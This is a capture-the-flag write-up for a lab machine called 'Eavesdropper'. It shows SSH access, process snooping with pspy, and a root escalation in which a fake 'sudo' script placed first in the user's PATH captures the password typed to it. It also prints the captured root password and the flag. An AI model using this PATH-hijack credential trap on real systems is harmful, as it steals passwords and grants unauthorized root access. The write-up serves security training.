 # Eavesdropper

## `Connect to ssh`

```ruby
chmod 600 id-rsa-1647296932800.id-rsa
ssh -i id-rsa-1647296932800.id-rsa frank@10.10.226.16
```

<img width="1041" height="472" alt="image" src="https://github.com/user-attachments/assets/84448f96-ac05-48a2-bc42-201fcf49f342" />

## **`linpeas`**


<img width="756" height="90" alt="image" src="https://github.com/user-attachments/assets/2a7c3706-f331-43fa-867a-651eb3c212e3" />

<img width="906" height="146" alt="image" src="https://github.com/user-attachments/assets/5aead914-827d-42a5-8de8-94777d5afa8d" />

> ## we don't have the password




What is **pspy**?
================

**pspy** is a small tool that monitors (snoop) processes on Linux **without root privileges**. You use `procfs` monitoring with `inotify` to catch short-lived processes (such as cron jobs, instantaneously executed scripts, or commands that pass passwords as args). Very useful in CTFs and testing environments to detect hidden cron, or see commands being executed with higher privileges.




```ruby
./pspy64 -c
```


<img width="1323" height="334" alt="image" src="https://github.com/user-attachments/assets/9a1a5673-a18e-4a73-812d-c64e2334a6c5" />

> This is weird, why root would use sudo? Looks like root is connecting through SSH to frank account. There is probably a cron job executing sudo in a unattended way so we'll be able to capture root password by capturing the intput. To do so we just have to change frank's PATH so a rogue sudo command would be executed.



> ## Create **`Fake sudo`**

```ruby
frank@workstation:~$ mkdir bin
frank@workstation:~$ cd bin/
frank@workstation:~/bin$ nano sudo
frank@workstation:~/bin$ cat sudo 
#!/bin/bash
read -p "Frank_password: " password
echo $password > /home/frank/pass.txt
frank@workstation:~/bin$ chmod +x sudo
```

<img width="849" height="193" alt="image" src="https://github.com/user-attachments/assets/3202e2c2-ec96-4a94-9e10-ce548f04085c" />


> ## Then we change frank's `PATH` so that the fake sudo will be loaded before the real one.

```ruby
nano .bashrc
export PATH=/home/frank/bin:$PATH
```


<img width="1068" height="527" alt="image" src="https://github.com/user-attachments/assets/9e5063e6-602b-4853-a2f3-6ec51907a9d2" />


## now getting root

```
!@#frankisawesome2022%*
```


<img width="747" height="187" alt="image" src="https://github.com/user-attachments/assets/846c64dc-f5c7-4742-8048-1ba74ad6ca2d" />


<img width="871" height="121" alt="image" src="https://github.com/user-attachments/assets/3fd567aa-dee3-491d-89ec-59347dc5abd5" />

```ruby
flag{14370304172628f784d8e8962d54a600}
```














































































































